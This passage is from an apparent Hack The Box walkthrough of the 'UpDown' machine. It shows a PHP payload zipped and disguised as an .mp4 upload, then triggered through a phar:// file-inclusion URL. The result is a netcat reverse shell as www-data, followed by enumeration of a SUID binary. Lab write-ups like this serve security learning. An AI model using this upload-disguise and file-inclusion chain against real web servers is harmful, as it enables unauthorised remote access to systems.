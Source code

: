 Now I made the zip file →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/UpDown]
└─$ nano proc_open.php         
                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads/HTB/UpDown]
└─$ zip file.mp4 proc_open.php 
  adding: proc_open.php (deflated 50%)

┌──(kali㉿kali)-[~/Downloads/HTB/UpDown]
└─$ file file.mp4 
file.mp4: Zip archive data, at least v2.0 to extract, compression method=deflate
```
{: .nolineno}
{: .nolineno}

I uploaded the file and loaded on web and got the output like this →

![Untitled](UpDown/Untitled%2010.png)

Now lets have a reverse shell →

```bash
http://dev.siteisup.htb/?page=phar://uploads/483d0d679db9db1bf8381828972bc6a9/file.mp4/proc_open
```
{: .nolineno}
{: .nolineno}

In netcat listener I got the reverse shell connection →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/UpDown]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.177] 41410
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ whoami
whoami
www-data
www-data@updown:/var/www/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@updown:/var/www/dev$
```
{: .nolineno}
{: .nolineno}

I got this file with SUIDs permissions →

```bash

www-data@updown:/home/developer/dev$ ls -al
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30  2022 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
www-data@updown:/home/developer/dev$
```
{: .nolineno}
{: .nolineno}
